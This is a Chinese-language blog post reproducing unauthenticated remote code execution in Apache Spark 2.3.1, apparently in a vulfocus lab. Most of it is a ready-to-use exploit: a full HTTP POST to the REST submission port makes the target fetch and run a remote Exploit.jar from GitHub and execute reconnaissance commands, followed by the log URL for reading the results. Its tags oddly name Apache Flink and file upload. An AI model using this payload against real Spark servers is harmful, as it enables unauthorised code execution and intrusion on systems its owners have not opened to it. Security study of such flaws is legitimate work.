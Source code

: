 ```yaml
---
title: Spark未授权访问RCE
layout: post
post-image: /assets/images/spark.jpg
description: Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。
tags:
- 内网渗透
- Apache Flink
- 文件上传
---
```



# Spark未授权访问RCE

​                                                                                                                       ——花无名    

## 1.Apache Spark 

Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。是一种与 Hadoop 相似的开源集群计算环境，但是两者之间还存在一些不同之处，这些有用的不同之处使 Spark 在某些工作负载方面表现得更加优越，换句话说，Spark 启用了内存分布数据集，除了能够提供交互式查询外，它还可以优化迭代工作负载。

## 2.漏洞介绍

系统未做身份验证，导致任意用户访问系统地址即可进入系统管理界面，并通过构造数据包，调用系统API接口，提交REST格式的API恶意代码，从而导致系统可被执行任意代码并getshell

## 3.漏洞复现

A：直接访问目标的8080端口即可进入系统管理界面，查看当前版本号为2.3.1（注：这里使用的靶场环境为vulfocus，故端口映射与系统原本默认端口不一致）

![image-20211106110800090](/assets/images/20211106/image-20211106110800090.png)

B：构造数据包：使用目标6066端口/v1/submissions/create构造数据包，提交REST格式的API恶意代码，并获取submissionId，其中appArgs参数值为需要执行的命令

POST /v1/submissions/create HTTP/1.1</br>
Host: your-ip:6066</br>
Accept-Encoding: gzip, deflate</br>
Accept: */*</br>
Accept-Language: en</br>
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)</br>
Content-Type: application/json</br>
Connection: close</br>
Content-Length: 680</br>
</br>
{</br>
  "action": "CreateSubmissionRequest",</br>
  "clientSparkVersion": "2.3.1",</br>
  "appArgs": [</br>
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"</br>
  ],</br>
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",</br>
  "environmentVariables": {</br>
    "SPARK_ENV_LOADED": "1"</br>
  },</br>
  "mainClass": "Exploit",</br>
  "sparkProperties": {</br>
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",</br>
    "spark.driver.supervise": "false",</br>
    "spark.app.name": "Exploit",</br>
    "spark.eventLog.enabled": "true",</br>
    "spark.submit.deployMode": "cluster",</br>
    "spark.master": "spark://your-ip:6066"</br>
  }</br>
}</br>

![image-20211106111209048](/assets/images/20211106/image-20211106111209048.png)

C：成功获取submissionid后，访问 http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout 即可查看执行结果

![image-20211106111440687](/assets/images/20211106/image-20211106111440687.png)